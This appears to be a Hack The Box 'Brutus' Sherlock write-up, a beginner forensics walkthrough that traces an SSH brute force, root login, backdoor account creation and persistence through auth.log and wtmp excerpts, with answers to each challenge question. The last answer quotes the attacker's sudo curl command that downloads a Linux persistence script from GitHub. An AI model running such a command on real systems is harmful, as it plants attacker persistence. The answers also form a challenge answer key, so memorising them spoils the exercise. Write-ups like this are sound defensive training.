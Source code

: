 ```yaml
---
title: Brutus
date: 2024-12-13 11:00:00 +/-TTTT
categories: [DFIR]
tags: [htb][sherlock]    # TAG names should always be lowercase
description: writeup of very easy Sherlock on htb 
---
```


# Brutus

## Scenario

In this very easy Sherlock, you will familiarize yourself with Unix auth.log and wtmp logs. We'll explore a scenario where a Confluence server was brute-forced via its SSH service. After gaining access to the server, the attacker performed additional activities, which we can track using auth.log. Although auth.log is primarily used for brute-force analysis, we will delve into the full potential of this artifact in our investigation, including aspects of privilege escalation, persistence, and even some visibility into command execution.


### 1. Analyzing the auth.log, can you identify the IP address used by the attacker to carry out a brute force attack?


Opening the logs we start looking for patterns, or rather deviating patterns. A brute force attack would have a lot of requests within a certain time span.
From the start of the log till 06:31:01 we see a lot of sessions opening and closing. After that we see that there are multiple attempts to login as an invalid user: admin. We can see that the attacker is using a different port for each attempt.

```
Mar  6 06:31:31 ip-172-31-35-28 sshd[2325]: Invalid user admin from 65.2.161.68 port 46380
---
Mar  6 06:31:31 ip-172-31-35-28 sshd[2330]: Invalid user admin from 65.2.161.68 port 46422
Mar  6 06:31:31 ip-172-31-35-28 sshd[2337]: Invalid user admin from 65.2.161.68 port 46498
Mar  6 06:31:31 ip-172-31-35-28 sshd[2328]: Invalid user admin from 65.2.161.68 port 46390
Mar  6 06:31:31 ip-172-31-35-28 sshd[2335]: Invalid user admin from 65.2.161.68 port 46460

etc.
```

`65.2.161.68`

### 2. The brute force attempts were successful, and the attacker gained access to an account on the server. What is the username of this account?

Looking for the source IP of the attacker we can search for succesful login attempts. 


```
Mar  6 06:31:40 ip-172-31-35-28 sshd[2411]: Accepted password for root from 65.2.161.68 port 34782 ssh2
```

`root`

### 3. Can you identify the timestamp when the attacker manually logged in to the server to carry out their objectives?

In the zip file where two files: the _auth.log_ file, and also a wtmp file.
We can _parse_ the contents of this file using _utmpdump_. Looking for login sessions of root of the day of the attack and combing this with the source IP of the attacker(which is information we found in the previous tasks), we can find the timestamp: 
```
[7] [02549] [ts/1] [root    ] [pts/1       ] [65.2.161.68         ] [65.2.161.68    ] [2024-03-06T06:32:45,387923+00:00]
```

` 2024-03-06 06:32:45 `

### 4. SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?

Looking through the logs we search for a succesful login of the _admin_ account. The catch is that the first time the admin user is logged in, its an automated login from the bruteforce attempt. The session gets killed shortly after.
So instead we look for a session which stays open, and actions are carried out by the attacker.

```
Mar  6 06:32:44 ip-172-31-35-28 sshd[2491]: Accepted password for root from 65.2.161.68 port 53184 ssh2
Mar  6 06:32:44 ip-172-31-35-28 sshd[2491]: pam_unix(sshd:session): session opened for user root(uid=0) by (uid=0)
Mar  6 06:32:44 ip-172-31-35-28 systemd-logind[411]: New session 37 of user root.
```

`37`

### 5. The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?

Shortly after logging in manually, we can see the attacker adding an user.

```
Mar  6 06:34:18 ip-172-31-35-28 groupadd[2586]: group added to /etc/group: name=cyberjunkie, GID=1002
Mar  6 06:34:18 ip-172-31-35-28 groupadd[2586]: group added to /etc/gshadow: name=cyberjunkie
Mar  6 06:34:18 ip-172-31-35-28 groupadd[2586]: new group: name=cyberjunkie, GID=1002
Mar  6 06:34:18 ip-172-31-35-28 useradd[2592]: new user: name=cyberjunkie, UID=1002, GID=1002, home=/home/cyberjunkie, shell=/bin/bash, from=/dev/pts/1
Mar  6 06:34:26 ip-172-31-35-28 passwd[2603]: pam_unix(passwd:chauthtok): password changed for cyberjunkie
Mar  6 06:34:31 ip-172-31-35-28 chfn[2605]: changed user 'cyberjunkie' information
```

 `cyberjunkie`

### 6. What is the MITRE ATT&CK sub-technique ID used for persistence?

Searching through the _persistance_ tactics we find that making a local account is in fact sub-technique ID _T1136.001_.

![MITRE subtechnique](/assets/img/post_images/Brutus_MITRE.png)
_T1136.001_

### 7. How long did the attacker's first SSH session last based on the previously confirmed authentication time and session ending within the auth.log? (seconds)

We know from the wmtp file that the first terminal session started at _06:32:45_.
Before the user logs in with his new account he ends the session on the admin account at _06:37:24_:
```
Mar  6 06:37:24 ip-172-31-35-28 sshd[2491]: Received disconnect from 65.2.161.68 port 53184:11: disconnected by user
Mar  6 06:37:24 ip-172-31-35-28 sshd[2491]: Disconnected from user root 65.2.161.68 port 53184
Mar  6 06:37:24 ip-172-31-35-28 sshd[2491]: pam_unix(sshd:session): session closed for user root
Mar  6 06:37:24 ip-172-31-35-28 systemd-logind[411]: Session 37 logged out. Waiting for processes to exit.
Mar  6 06:37:24 ip-172-31-35-28 systemd-logind[411]: Removed session 37.
```

Subtract the later from the first and you'll find that the session lasted 4 minutes and 39 seconds of _279 seconds_.



### 8. The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?

Looking for an executed command as _cyberjunkie_ with _sudo_ we find the following entry in the auth.log:
`/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`

